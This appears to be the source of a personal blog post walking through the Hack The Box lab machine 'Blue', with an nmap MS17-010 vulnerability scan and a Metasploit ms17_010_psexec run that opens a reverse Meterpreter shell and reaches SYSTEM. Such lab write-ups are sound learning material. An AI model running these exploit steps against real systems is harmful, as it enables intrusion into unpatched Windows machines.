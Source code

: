 ```yaml
---
layout: post
title:  "HTB: Blue"
date:   2021-03-05 21:45:00 +1100
category: hacking
---
```


## Blue
Following on from Legacy in number of pwns is Blue. I have heard of this one, and the name is a giveaway. Is it pretty much a clone of Legacy?

## Ports
Not exactly; there are a bunch more ports for a start:
1. 135/tcp   open  msrpc
2. 139/tcp   open  netbios-ssn
3. 445/tcp   open  microsoft-ds
4. 49152/tcp open  unknown
5. 49153/tcp open  unknown
6. 49154/tcp open  unknown
7. 49155/tcp open  unknown
8. 49156/tcp open  unknown
9. 49157/tcp open  unknown

## SMB
We'll do the same scan as Legacy:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/blue]
└─# nmap -p445 --script smb-vuln-ms17-010 10.10.10.40
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-05 05:42 EST
Nmap scan report for 10.10.10.40
Host is up (0.24s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Nmap done: 1 IP address (1 host up) scanned in 4.15 seconds
{% endhighlight %}

And we'll get the same result.

## Yeeting MSF again again
I've never used Metasploit three times in an evening before. First time for everything I guess:


{% highlight shell %}
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > run

[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.40:445 - Target OS: Windows 7 Professional 7601 Service Pack 1
[*] 10.10.10.40:445 - Built a write-what-where primitive...
[+] 10.10.10.40:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.40:445 - Selecting PowerShell target
[*] 10.10.10.40:445 - Executing the payload...
[+] 10.10.10.40:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.10.10.40
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.40:49158) at 2021-03-05 05:45:16 -0500

meterpreter > shell
Process 1564 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
{% endhighlight %}

Well, it's a different version of the OS I guess. Devel will be next, but that's for tomorrow.
